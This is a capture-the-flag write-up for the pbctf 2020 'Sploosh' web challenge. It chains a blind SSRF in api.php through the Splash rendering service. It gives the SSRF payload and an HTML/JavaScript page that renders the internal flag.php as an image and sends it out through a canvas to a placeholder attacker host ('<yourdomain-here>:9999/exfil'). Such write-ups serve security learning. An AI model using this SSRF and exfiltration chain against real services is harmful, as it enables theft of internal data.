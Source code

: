 ## Sploosh - Web challenge - pbctf 2020
## Author: p4w@beerpwn
### Twitter: https://twitter.com/p4w16

## TL;DR
This challenge is about exploiting an __SSRF__ vulnerability along with __Splash__ (javascript rendering service).

## Challenge description
![img desc](screen/desc.png)


## Solution
Once connected to the challenge, the index page show a link where it is possible to download the source code.
Here it follow the docker configuration file for the challenge:

![img desc](screen/docker_compose.png)

The application is pretty simple, basically we have 3 file: __index.php__, __flag.php__ and __api.php__.
The __index.php__ page doesn't contain anything important, so I'll only show the __api.php__ and __flag.php__ pages.
<br>

This is the source for __api.php__
![img desc](screen/api.png)

and this the source code of __flag.php__
![img desc](screen/flag_source.png)

As we can see in __api.php__, it's possible to control the `url` GET parameter and if it is passed, then script will execute `file_get_contents` with the `http` wrapper to the host `splash`.
With a bit of googling it's possible to discover the service behind the scene. The repository of the splash project can be found here
* https://github.com/scrapinghub/splash

As it is possible to observe that to get the flag it's necessary to request the `flag.php` file, but the flag will be printed out only if the remote address that is requesting the resource is __172.16.0.13__ or __172.16.0.14__. At this point and considering what we have I start to thinking that I need some kind of __SSRF__ to retrieve the flag. Trigger the __SSRF__ is pretty easy in this situation, since no check is made on the `url` parameter, we can just pass arbitrary address in it. Problem is that the __SSRF__ is blind, I'm going to show what I mean with some screen.

![img desc](screen/google_req.png)

Here for example I used google.com domain as endpoint, but in the response we don't have all the page contents retrieved from google, instead only the geometry is present. At this point I start to looking more closely to the __Splash__ documentation (https://splash.readthedocs.io/en/stable/api.html).
Also referring to the `api.php` resource, it's possible to notice that the `url` parameter is __urlencoded__ before concatenation, this stop us to directly inject additional parameters on the query itself (`& -> %26`).
By reading the documentation we can notice that the __Splash API__ can be used along with many parameters. The first one that caught my attention was the `lua_source` parameter that can be passed to the `/execute` API endpint to run custom lua script. Searching more information about that I discover this article https://paper.seebug.org/354/ that explain how __Splash__ works. One thing that tell us is that we can't actually run arbitrary lua code since is sand-boxed for security reason.
Before going more in deep on the __Splash API__, let's see how it is possible to full control a request over the splash endpoint by exploiting the `url` parameter. The trick is simple we can just pass a full request to the internal address:
* `url=http://172.16.0.13:8050/render.html%3furl=http://example.com/`

With this payload it is possible to force the the application to make a request to the `render.html` API endpoint that will generate another request to the domain `example.com`. Let's verify that:

![img desc](screen/webhook_req.png)
![img desc](screen/webhook.png)

Works fine, at this point I knew that I was able to fully control a request to the splash endpoint along with any parameter I want to use. The first idea was to use the `lua_source` parameter to inject some lua script to leak the flag. I tried that solution, unfortunately I fail so I start to read more documentation.
The __Splash__ service have many endpoints that can be used to fetch pages such as `/render.jpeg`.

![img desc](screen/render_jpeg_docs.png)

At this point I start to think for a chain that can be used to retrieve the flag by using this functionality. The basic idea that I had was to embed an `<img>` tag in a page controlled by me and pointing to the `/render.jpeg` endpoint with the `url` parameter `http://172.16.0.14/flag.php`. After that I can leak the contents with some JavaScript code.

This is the code I used to do that:

```
<html>
  <body>
    <script>
      function exfil(){
        var c = document.getElementById("myCanvas");
        var ctx = c.getContext("2d");
        var img = document.getElementById("preview");
        ctx.drawImage(img, 30, 30);
        var i = new Image();
        i.src="http://<yourdomain-here>:9999/exfil?data="+btoa(c.toDataURL());
      }
    </script>
    <img id="preview" src="http://172.16.0.13:8050/render.jpeg?url=http://172.16.0.14/flag.php" onload="exfil()">
    <canvas id="myCanvas" />
  </body>
</html>
```

To make this work, I just play a bit with the `api.php` page and come up with this payload:
```
GET /api.php?url=http://172.16.0.13:8050/render.html%3furl=http://<yourdomain-here>:8000/exploit.php HTTP/1.1
...
```
basically the first request goes to the `/render.json` endpoint that is used inside the `api.php`, then a request for `/render.html` is generated along with the `url` parameter pointing to my domain where I hosted the page showed before is hosted.
You can look the exploit working during the CTF in the screenshots below.

![img desc](screen/SSRF.png)
![img desc](screen/recv_connection.png)
![img desc](screen/flag_recv.png)

After that we can just decode the base64 and we get the flag rendered in a jpeg file!

![img desc](screen/flag.png)
